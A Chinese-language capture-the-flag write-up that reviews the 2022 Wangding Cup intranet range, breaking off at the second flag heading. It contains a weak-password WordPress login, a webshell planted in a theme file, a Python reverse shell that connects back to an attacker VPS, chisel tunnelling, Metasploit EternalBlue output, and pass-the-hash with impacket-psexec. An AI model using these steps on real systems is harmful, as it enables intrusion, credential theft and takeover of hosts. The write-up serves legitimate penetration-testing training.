# 2022 - 网鼎杯半决赛复盘

该靶场为 2022 第三届网鼎杯决赛内网靶场复盘。完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 4 个 flag，分布于不同的靶机。

<!-- truncate -->

:::info

Tags

- Wordpress
- 内网渗透
- 域渗透
- Kerberos
- AD CS

:::

```plaintext title="入口点"
39.98.113.15
```

## 入口点 探测

使用 `fscan` 对入口点的服务进行探测

```shell
start infoscan
39.101.175.73:22 open
39.101.175.73:80 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://39.101.175.73      code:200 len:39988  title:XIAORANG.LAB
```

只发现了一个 `80` 端口上的 http 服务



根据 `Wappalyzer` 和页面的设计风格，可以确定是 `Wordpress` 框架的站点，版本为 `6.2.6`

尝试使用 `wpscan` 和 `dirsearch` 进行扫描，未获得有价值信息

## 入口点 Wordpress 弱口令

访问 `http://39.101.175.73/wp-login.php` 进入 Wordpress 的登陆界面，使用弱口令 `admin:123456` 成功进入后台



并且得到的为管理员权限

## 入口点 Wordpress 后台写 Webshell

根据一般思路，进入后台的主题管理 `http://39.101.175.73/wp-admin/themes.php`

可以看到现在启用的主题是 `Twenty Twenty-One`

有以下三种思路，可以在 Wordpress 后台写入 webshell

- 主题更新包写入 webshell
- 插件包写入 webshell
- 安装 `File Manager` 插件，直接写入 webshell
- `theme-editor` 直接修改主题文件写 webshell
- `plugin-editor` 直接修改插件文件写 webshell

访问 `http://39.101.175.73/wp-admin/theme-editor.php` 直接修改主题文件写 webshell

往 `Twenty Twenty-One: 404 Template (404.php)` 主题文件写入 webshell



然后使用蚁剑访问 `http://39.101.175.73/wp-content/themes/twentytwentyone/404.php`


成功植入 webshell

但是尝试利用的时候，发现无法正常利用



```plaintext
{"code":"ECONNRESET","errno":"ECONNRESET","syscall":"read"}
```

使用插件直接执行 `phpinfo` 查看环境信息，发现存在 `disable_functions`

```plaintext
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,
```

## 入口点 PHP  disable_functions Bypass

直接使用插件进行 disable_functions Bypass

这里选用的模式为 `PHP 7.0-8.0 disable_functions bypass [user_filter]`



命令被成功执行了

尝试进行反弹 shell

```shell
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ wget 139.*.*.*:8008/reverse-python3.py
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ cat reverse-python3.py
import os,pty,socket
s=socket.socket()
s.connect(("139.*.*.*",9999))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("/bin/bash")
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ python3 --version
Python 3.8.10
(www-data:/var/www/html/wp-content/themes/twentytwentyone) $ python3 reverse-python3.py
```

成功收到回连的 shell

```shell
root@jmt-projekt:~# pwncat-cs -lp 9999
[14:38:51] Welcome to pwncat 🐈!
[14:39:31] received connection from 39.101.175.73:53808
[14:39:32] 39.101.175.73:53808: registered new host w/ db
(local) pwncat$ back
(remote) www-data@ubuntu-web:/var/www/html/wp-content/themes/twentytwentyone$ whoami
www-data
```

## flag - 01

```plaintext
 ________ ___       ________  ________  ________    _____
|\  _____\\  \     |\   __  \|\   ____\|\   __  \  / __  \
\ \  \__/\ \  \    \ \  \|\  \ \  \___|\ \  \|\  \|\/_|\  \
 \ \   __\\ \  \    \ \   __  \ \  \  __\ \  \\\  \|/ \ \  \
  \ \  \_| \ \  \____\ \  \ \  \ \  \|\  \ \  \\\  \   \ \  \
   \ \__\   \ \_______\ \__\ \__\ \_______\ \_______\   \ \__\
    \|__|    \|_______|\|__|\|__|\|_______|\|_______|    \|__|


        flag01: flag{22159bd3-4d49-44be-a4a1-aba3e8a03834}
```

## 入口点 内网扫描

查看网卡信息

```shell
(remote) www-data@ubuntu-web:/tmp$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.15.26  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe23:b5cb  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:23:b5:cb  txqueuelen 1000  (Ethernet)
        RX packets 123137  bytes 126113430 (126.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 46383  bytes 16332362 (16.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1220  bytes 108670 (108.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1220  bytes 108670 (108.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

上传 `fscan` 并进行扫描

```shell
(remote) www-data@ubuntu-web:/tmp$ wget 139.*.*.*:8000/fscan_amd64.1
--2024-07-26 14:45:03--  http://139.*.*.*:8000/fscan_amd64.1
Connecting to 139.*.*.*:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6217056 (5.9M) [application/octet-stream]
Saving to: ‘fscan_amd64.1’

fscan_amd64.1                                       100%[===================================================================================================================>]   5.93M  13.3MB/s    in 0.4s

2024-07-26 14:45:04 (13.3 MB/s) - ‘fscan_amd64.1’ saved [6217056/6217056]

(remote) www-data@ubuntu-web:/tmp$ chmod +x fscan_amd64.1
(remote) www-data@ubuntu-web:/tmp$ ./fscan_amd64.1 -h 172.22.15.26/24
......
start ping
(icmp) Target 172.22.15.13    is alive
(icmp) Target 172.22.15.18    is alive
(icmp) Target 172.22.15.24    is alive
(icmp) Target 172.22.15.26    is alive
(icmp) Target 172.22.15.35    is alive
[*] Icmp alive hosts len is: 5
172.22.15.13:445 open
172.22.15.18:445 open
172.22.15.24:3306 open
172.22.15.35:445 open
172.22.15.24:445 open
172.22.15.35:139 open
172.22.15.24:139 open
172.22.15.13:139 open
172.22.15.18:139 open
172.22.15.35:135 open
172.22.15.24:135 open
172.22.15.13:135 open
172.22.15.18:135 open
172.22.15.24:80 open
172.22.15.18:80 open
172.22.15.26:80 open
172.22.15.13:88 open
172.22.15.26:22 open
[*] alive ports len is: 18
start vulscan
[*] NetInfo:
[*]172.22.15.13
   [->]XR-DC01
   [->]172.22.15.13
[*] NetInfo:
[*]172.22.15.24
   [->]XR-WIN08
   [->]172.22.15.24
[*] NetInfo:
[*]172.22.15.18
   [->]XR-CA
   [->]172.22.15.18
[*] NetInfo:
[*]172.22.15.35
   [->]XR-0687
   [->]172.22.15.35
[*] 172.22.15.13  (Windows Server 2016 Standard 14393)
[+] 172.22.15.24        MS17-010        (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] NetBios: 172.22.15.13    [+]DC XR-DC01.xiaorang.lab          Windows Server 2016 Standard 14393
[*] NetBios: 172.22.15.18    XR-CA.xiaorang.lab                  Windows Server 2016 Standard 14393
[*] NetBios: 172.22.15.35    XIAORANG\XR-0687
[*] NetBios: 172.22.15.24    WORKGROUP\XR-WIN08                  Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] WebTitle: http://172.22.15.26       code:200 len:39962  title:XIAORANG.LAB
[*] WebTitle: http://172.22.15.18       code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.15.24       code:302 len:0      title:None 跳转 url: http://172.22.15.24/www
[+] http://172.22.15.18 poc-yaml-active-directory-certsrv-detect
[*] WebTitle: http://172.22.15.24/www/sys/index.php code:200 len:135    title:None
```

## Net 172.22.15.26/24

- 172.22.15.13
- - Windows Server 2016 Standard 14393
- - DC XR-DC01.xiaorang.lab
- 172.22.15.18
- - XR-CA.xiaorang.lab
- - IIS Windows Server
- - poc-yaml-active-directory-certsrv-detect
- 172.22.15.24
- - Windows Server 2008 R2 Enterprise 7601 Service Pack 1
- - WORKGROUP\XR-WIN08
- - MS17-010
- - HTTP - 172.22.15.24/www/sys/index.php
- 172.22.15.26
- - HTTP - title:XIAORANG.LAB
- 172.22.15.35
- - XIAORANG\XR-0687

## 入口点 建立代理枢纽

```shell title="vps"
root@jmt-projekt:~# ./chisel_1.9.1_linux_amd64 server -p 1337 --reverse &
[3] 104848
2024/07/26 14:54:16 server: Reverse tunnelling enabled
2024/07/26 14:54:16 server: Fingerprint YD3Q0ZtfOkuluprJwabcvK5nCT6F1qxLl5pFCh7OGoI=
2024/07/26 14:54:16 server: Listening on http://0.0.0.0:1337
```

```shell title="入口点 172.22.15.26"
(remote) www-data@ubuntu-web:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 R:0.0.0.0:10000:socks &
[1] 3364
2024/07/26 14:54:39 client: Connecting to ws://139.*.*.*:1337
2024/07/26 14:54:39 client: Connected (Latency 43.474586ms)
```

成功建立转发

```shell title="vps"
2024/07/26 14:54:39 server: session#1: tun: proxy#R:10000=>socks: Listening
```

## 172.22.15.24 MS17-010

直接使用 Metasploit 进行攻击

```shell
root@jmt-projekt:~# proxychains4 -q msfconsole -q
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 172.22.15.26
LHOST => 172.22.15.26
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 8888
LPORT => 8888
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 172.22.15.24
RHOST => 172.22.15.24
```

:::warning

怀疑内部靶机不具有出网条件，需要提前建立端口转发

:::

```shell title="入口点 172.22.15.26"
(remote) www-data@ubuntu-web:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 8888:8888 &
[2] 3483
2024/07/26 15:10:45 client: Connecting to ws://139.*.*.*:1337
2024/07/26 15:10:45 client: tun: proxy#8888=>8888: Listening
2024/07/26 15:10:45 client: Connected (Latency 44.294711ms)
```

开始攻击

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[-] Handler failed to bind to 172.22.15.26:8888:-  -
[*] Started reverse TCP handler on 0.0.0.0:8888
[*] 172.22.15.24:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 172.22.15.24:445      - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 x64 (64-bit)
[*] 172.22.15.24:445      - Scanned 1 of 1 hosts (100% complete)
[+] 172.22.15.24:445 - The target is vulnerable.
......
[*] 172.22.15.24:445 - Connecting to target for exploitation.
[+] 172.22.15.24:445 - Connection established for exploitation.
[+] 172.22.15.24:445 - Target OS selected valid for OS indicated by SMB reply
[*] 172.22.15.24:445 - CORE raw buffer dump (53 bytes)
[*] 172.22.15.24:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 172.22.15.24:445 - 0x00000010  30 30 38 20 52 32 20 45 6e 74 65 72 70 72 69 73  008 R2 Enterpris
[*] 172.22.15.24:445 - 0x00000020  65 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  e 7601 Service P
[*] 172.22.15.24:445 - 0x00000030  61 63 6b 20 31                                   ack 1
[+] 172.22.15.24:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 172.22.15.24:445 - Trying exploit with 22 Groom Allocations.
[*] 172.22.15.24:445 - Sending all but last fragment of exploit packet
[*] 172.22.15.24:445 - Starting non-paged pool grooming
[+] 172.22.15.24:445 - Sending SMBv2 buffers
[+] 172.22.15.24:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 172.22.15.24:445 - Sending final SMBv2 buffers.
[*] 172.22.15.24:445 - Sending last fragment of exploit packet!
[*] 172.22.15.24:445 - Receiving response from exploit packet
[+] 172.22.15.24:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 172.22.15.24:445 - Sending egg to corrupted connection.
[*] 172.22.15.24:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:8888 -> 127.0.0.1:49112) at 2024-07-26 15:15:08 +0800
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > sysinfo
Computer        : XR-WIN08
OS              : Windows Server 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```

:::warning

MS7-010 漏洞的利用要一点运气，确认漏洞存在但是不成功的话，就多试几次

:::

## 172.22.15.24 添加后门用户

尝试运行 `shell` 启动终端，但是失败了，于是尝试通过 `meterpreter-hashdump` 配合 `impacket-psexec` 获取终端

```shell
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e52d03e9b939997401466a0ec5a9cbc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

获取得到 `Administrator` 的哈希之后，执行 `impacket-psexec`

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-psexec administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 172.22.15.24.....
[*] Found writable share ADMIN$
[*] Uploading file QbvIybMQ.exe
[*] Opening SVCManager on 172.22.15.24.....
[*] Creating service cJdd on 172.22.15.24.....
[*] Starting service cJdd.....
[!] Press help for extra shell commands
Microsoft Windows [版本 6.1.7601]
版权所有 (c) 2009 Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami
nt authority\system
```

然后更改用户密码

```shell
C:\Windows\system32> net user Administrator admin123###
命令成功完成。
```

在尝试登录 RDP 的时候，远程服务器返回错误



参考 [远程连接服务器时出现 “这可能是由于 CredSSP 加密数据库修正” 的错误提示的解决办法 - CSDN 博客](https://blog.csdn.net/juanjuan_01/article/details/127005255) 这篇文章来解决



再次尝试连接



允许证书之后，即可登陆上靶机



## flag - 02

